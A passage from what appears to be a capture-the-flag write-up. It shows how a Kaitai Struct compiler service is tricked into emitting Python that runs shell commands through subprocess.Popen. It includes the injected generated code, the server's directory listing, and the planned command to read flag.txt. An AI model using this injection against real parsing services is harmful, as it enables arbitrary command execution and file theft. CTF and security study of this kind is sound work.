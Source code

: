 ```python

if parse_version(kaitaistruct.__version__) < parse_version('0.9'):
    raise Exception("Incompatible Kaitai Struct Python API: 0.9 or later is required, but you have %s" % (kaitaistruct.__version__))

class Sample(KaitaiStruct):
    def __init__(self, _io, _parent=None, _root=None):
        self._io = _io
        self._parent = _parent
        self._root = _root if _root else self
        self._read()

    def _read(self):
        self._raw_foo = self._io.read_bytes(1)
        _process = subprocess.Popen([u"ls", u"/src/app"])
        self.foo = _process.decode(self._raw_foo)
```
Note that the code will actually crash on the line after the `Popen` call, with `AttributeError: 'Popen' object has no attribute 'decode'`. But by this time we will have already seen the output of the subprocess, which is all we need. Running it on the server, with any file as the data to parse, we get
```
/tmp/tmp.tDAAXnZfTK /src/app
Give link to your YAML
https://pastebin.com/raw/...
None
Give link to your file for Kaitai to parse
https://example.com
flag.txt
kaitai-struct-compiler-0.10-SNAPSHOT
requirements.txt
run.py
run.sh
ynetd
/src/app
```
Great, we have a `flag.txt` in `/src/app`. Now all we need to do is call `subprocess.Popen(['cat', '/src/app/flag.txt'])` to get the flag.
